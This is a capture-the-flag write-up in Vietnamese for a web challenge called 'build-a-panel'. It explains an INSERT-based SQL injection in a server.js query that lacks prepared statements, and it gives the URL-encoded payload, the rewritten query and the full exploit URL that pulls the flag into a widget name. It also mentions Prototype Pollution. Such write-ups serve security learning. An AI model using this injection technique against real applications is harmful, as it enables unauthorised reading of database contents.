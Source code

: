 # Vài lời nói đầu
Bài này có lẽ là tác giả bị misconfig vì cơ bản mình tìm được 2 lỗi ở đây cơ mà chỉ cần dùng đến 1 và không cần chain vs nhau .-. và mình viết write up này hoàn toàn phụ thuộc vào tâm trạng nên có thể nó sẽ bị dở dở ương ương nếu có gì khó hiểu hoặc không hiểu mn để lại comment để mình sửa nhé! Love you <3

# Challenge
Như mình đã nói ở phần mở đầu bài này có đến 2 lỗ để đục đầu tiên là lỗi `sql injection` và lỗi thứ 2 là `Prototype Pollution` và tác giả cũng đã chia làm 2 challenge nên được thể mình cũng chia đôi luôn :v thế là ăn gian được 1 tí cho đủ KPI =))) [Some music for you while reading !](https://www.youtube.com/watch?v=L3wKzyIN1yk)


![img1](Capture.JPG)

Đây là đoạn duy nhất trong đống code của `server.js` không hề sử dụng prestatement và nó dùng để insert dữ liệu vào trong database vậy nên đây là dạng `insert sqli` lỗi này có thể bị lợi dụng để tạo ra một bản ghi có chứa dữ liệu bị giấu ở trong database.
Để dễ hiểu hơn thì mình sẽ đi từ câu query trước
`INSERT INTO widgets (panelid, widgetname, widgetdata) VALUES ('${queryParams['panelid']}', '${queryParams['widgetname']}', '${queryParams['widgetdata']}')`

với `${queryParams['panelid']}` là get parameter với tên panelid. Về cách inject thì khá đơn giản đó là bạn sẽ thêm `'` để break query hiện tại, sau đó tái tạo lại câu lệnh insert đúng và cuối cùng là comment tất cả nhưng phần còn lại để chắc chắn là không có lỗi gì xảy ra.

Mình quyết định sẽ inject vào biến panelid do mình có thể hiển thị tên của widget là flag luôn. Nếu inject vào `widgetdata` thì flag sẽ không hiển thị trực tiếp lên mà bạn phải gọi thông qua đường dẫn khác để xem được giá trị còn nó là đường dẫn nào và sao nó lại không hiển thị trực tiếp thì sao mọi người không thử đọc code nhỉ =))).

Giá trị mình inject vào sẽ trông như thế này `clownking1%27%2C+%28select+flag+from+flag%29+%2C+123%29--+-` 

Và khi đưa vào trong query nó sẽ trông như sau :

`INSERT INTO widgets (panelid, widgetname, widgetdata) VALUES ('clownking1', (select flag from flag) , 123)-- -', 'blabla', 'blabla')`

sau đó để đọc được widget mới được tạo thì như ở trong đường dẫn `/panel/widgets` nó sẽ như này 

![img2](Capture2.JPG)

Server sẽ lấy giá trị `panelId` từ cookie và đọc tất cả từ trong database.

Cuối cùng thì mình sẽ gửi url như này `https://build-a-panel.dicec.tf/admin/debug/add_widget?panelid=clownking1%27%2C+%28select+flag+from+flag%29+%2C+123%29--+-&widgetname=123123&widgetdata=123123` và đổi lại cookie nữa là xong 

![img3](Capture3.JPG)